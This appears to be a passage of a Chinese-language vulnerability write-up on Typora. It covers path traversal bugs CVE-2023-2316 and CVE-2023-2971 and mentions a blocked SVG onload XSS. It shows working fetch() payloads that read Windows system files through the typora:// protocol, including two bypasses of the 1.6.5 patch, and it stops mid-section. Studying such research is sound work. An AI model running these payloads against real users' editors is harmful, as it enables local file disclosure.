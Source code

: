  但是SVG元素的`onload`事件代码被浏览器阻止了，因为它尝试在一个跨域的frame中访问当前的frame，这违反了同源策略。

![1693365876426](CVE-2023-2317/1693365876426.png)

 

##   CVE-2023-2316 路径遍历漏洞

```javascript
fetch('typora://app/C:/windows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
```

![1693367774824](CVE-2023-2317/1693367774824.png)

仍然是针对Typora1.6.5的，0.9很安全。

### 2316漏洞修补

在Typora 1.6.5中添加了一个健全性检查， 

`[1]` 以确保路径以字符串 `typemark` 开头，

[2]消除了传递以 `/`  或者`C:\\` 开头的绝对路径的可能性。 

### 2316修补的绕过

- Approach 1: Using `..%5C` (Windows-only):
  方法 1：使用 URL编码`..%5C` （仅限 Windows）：

  ```javascript
  fetch('typora://app/typemark/..%5C..%5C..%5C..%5C..%5C..%5C..%5CWindows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
  ```

- Approach 2: Passing `../` in URL fragment `#`:
  方法 2：URL 片段 `#` 中传入 `../` ：

  ```javascript
  fetch('typora://app/typemark#../../../../../../../../Windows/win.ini').then(r=>r.text()).then(r=>{console.log(r)})
  ```

## CVE-2023-2971路径遍历漏洞

### 影响范围

 Typora for Windows/Linux < 1.7.0-dev
 实际测试的版本：
